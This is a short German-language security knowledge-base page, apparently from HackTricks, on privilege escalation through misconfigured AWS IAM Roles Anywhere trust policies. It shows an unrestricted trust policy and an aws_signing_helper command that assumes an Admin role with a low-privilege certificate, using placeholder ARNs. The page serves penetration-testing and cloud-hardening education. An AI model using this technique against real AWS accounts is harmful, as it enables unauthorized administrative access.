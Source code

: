 # AWS - IAM Roles Anywhere Privesc

{{#include ../../../../banners/hacktricks-training.md}}

AWS IAM RolesAnywhere ermöglicht es Workloads außerhalb von AWS, IAM-Rollen mithilfe von X.509-Zertifikaten zu übernehmen. Wenn jedoch Vertrauensrichtlinien nicht ordnungsgemäß festgelegt sind, können sie für Privilegieneskalation missbraucht werden.

Diese Richtlinie weist keine Einschränkungen auf, welche Vertrauensanker oder Zertifikatsattribute erlaubt sind. Infolgedessen kann jedes Zertifikat, das mit einem beliebigen Vertrauensanker im Konto verknüpft ist, verwendet werden, um diese Rolle zu übernehmen.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Service": "rolesanywhere.amazonaws.com"
},
"Action": [
"sts:AssumeRole",
"sts:SetSourceIdentity",
"sts:TagSession"
]
}
]
}

```
Um Privilegien zu eskalieren, ist der `aws_signing_helper` erforderlich von https://docs.aws.amazon.com/rolesanywhere/latest/userguide/credential-helper.html

Dann kann der Angreifer mit einem gültigen Zertifikat in die Rolle mit höheren Rechten wechseln.
```bash
aws_signing_helper credential-process \
--certificate readonly.pem \
--private-key readonly.key \
--trust-anchor-arn arn:aws:rolesanywhere:us-east-1:123456789012:trust-anchor/ta-id \
--profile-arn arn:aws:rolesanywhere:us-east-1:123456789012:profile/default \
--role-arn arn:aws:iam::123456789012:role/Admin
```
### Referenzen

- https://www.ruse.tech/blogs/aws-roles-anywhere-privilege-escalation/

{{#include ../../../../banners/hacktricks-training.md}}
